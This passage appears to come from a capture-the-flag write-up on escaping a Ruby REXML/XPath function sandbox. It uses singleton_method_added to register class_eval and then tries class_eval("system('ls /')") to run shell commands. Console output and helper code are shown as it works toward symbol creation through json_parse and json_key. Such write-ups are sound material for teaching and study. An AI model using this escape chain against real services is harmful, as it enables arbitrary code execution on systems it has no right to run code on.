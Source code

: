 The trouble is, if we use the remote version of the console, we won't be able to tell
if anything changes (since `singleton_method_added` doesn't return anything other than the name
of the function). So let's tweak the code of the loop a little bit and run it locally. We'll change:

```ruby
puts STATE.query(query)
```

To:

```ruby
puts STATE.query(query)
puts "FUNCS"
puts REXML::Functions.class_variable_get(:@@available_functions)
```

Trying this out we get:

```
> singleton_method_added("class_eval")
class_eval
true
FUNCS
{:singleton_method_added=>true, :text=>true, ..., "class_eval"=>true}
```

Awesome, `class_eval` is at the end of the list! We should be able to call it:

```
> class_eval("system('ls /')")

>
```

Nope, looks like it got filtered. At this point we realized that `class_eval` is in the available 
functions Hash as a String whereas everything else is a Symbol. This presents a unique challenge
as there isn't really a concept of symbols in XPath. After a little bit of thinking, we remembered the
`parse_json` method and its definition:

```ruby
def self.json_parse(value)
  # at least json is safe to parse
  JSON.parse(value, symbolize_names: true)
end
```

This calls `JSON.parse` which is a pretty standard JSON parsing function in Ruby, but passes in 
`symbolize_keys` which takes all the String keys from an object and turns them into symbols. 
So if we could parse a JSON object and somehow get back its key, we could create a symbol. 
Luckily enough, we have a function that will do exactly that, `json_key`:

```ruby
def self.json_key(json, value)
  json.key(value)
end
```
